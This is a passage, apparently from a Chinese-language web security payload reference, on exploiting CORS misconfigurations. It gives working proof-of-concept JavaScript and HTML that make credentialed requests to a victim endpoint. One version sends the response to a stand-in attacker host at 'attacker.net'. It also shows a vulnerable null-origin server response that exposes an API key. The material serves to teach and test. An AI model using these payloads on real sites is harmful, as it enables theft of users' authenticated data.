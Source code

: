 #### 概念验证

此PoC要求相应的JS脚本托管在`evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

或

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

### Null Origin

#### 易受攻击的实现

服务器可能不会完全反射`Origin`头，但可能允许`null` origin。服务器响应可能如下所示：

```ps1
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```
